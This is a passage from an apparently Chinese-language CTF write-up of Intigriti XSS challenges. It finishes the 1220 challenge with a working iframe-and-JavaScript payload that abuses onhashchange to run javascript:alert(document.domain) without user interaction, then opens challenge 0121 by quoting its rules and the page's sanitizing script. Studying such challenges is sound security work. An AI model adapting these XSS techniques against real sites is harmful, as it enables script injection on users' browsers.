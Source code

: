 点击计算器`C`键，调用`clear() ==&gt; init()`，实现第二次执行，成功实现xss:

[![](https://p2.ssl.qhimg.com/t0108181d34278efb5d.png)](https://p2.ssl.qhimg.com/t0108181d34278efb5d.png)

#### <a class="reference-link" name="b.%E6%97%A0%E4%BA%A4%E4%BA%92"></a>b.无交互

为了实现无需用户交互下的xss，可用构造`onhashchange="init"` 事件，每当hash变化后就调用`init`:

```
# html
&lt;iframe id="intigriti" src="https://challenge-1220.intigriti.io/?javascript:alert(document.domain)//#&amp;num1=onhashchange&amp;operator=%3D&amp;num2=init"  style="border-style:none;" width=500 hight=500&gt;&lt;/iframe&gt;

# javascritp

setTimeout(firstchange, 1000);
setTimeout(secondchange, 2000);

function firstchange() `{`
  document.querySelector("#intigriti").src = "https://challenge-1220.intigriti.io/?javascript:alert(document.domain)//#&amp;num1=a&amp;operator=%3D&amp;num2=searchQueryString";
`}`

function secondchange() `{`
    document.querySelector("#intigriti").src = "https://challenge-1220.intigriti.io/?javascript:alert(document.domain)//#&amp;num1=location&amp;operator=%3D&amp;num2=a";
`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01a9f14708677d416f.png)



## 0x02 xss challenge 0121

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E6%A6%82%E8%BF%B0"></a>题目概述

地址：[https://challenge-0121.intigriti.io/](https://challenge-0121.intigriti.io/) ，挑战有以下要求：
- 使用最新版的Firefox或者Chrome浏览器
- 通过`alert()`弹出 `{`THIS_IS_THE_FLAG`}`
- 利用此页面的xss漏洞
- 不允许self-XSS 和 MiTM 攻击
### <a class="reference-link" name="%E6%80%9D%E8%B7%AF%E5%88%86%E6%9E%90"></a>思路分析

查看网页JS代码：

```
window.href = new URL(window.location.href);
  window.r = href.searchParams.get("r");
  //Remove malicious values from href, redirect, referrer, name, ...
  ["document", "window"].forEach(function(interface)`{`
    Object.keys(window[interface]).forEach(function(globalVariable)`{`
        if((typeof window[interface][globalVariable] == "string") &amp;&amp; (window[interface][globalVariable].indexOf("javascript") &gt; -1))`{`
            delete window[interface][globalVariable];
        `}`
    `}`);
  `}`);

  window.onload = function()`{`
```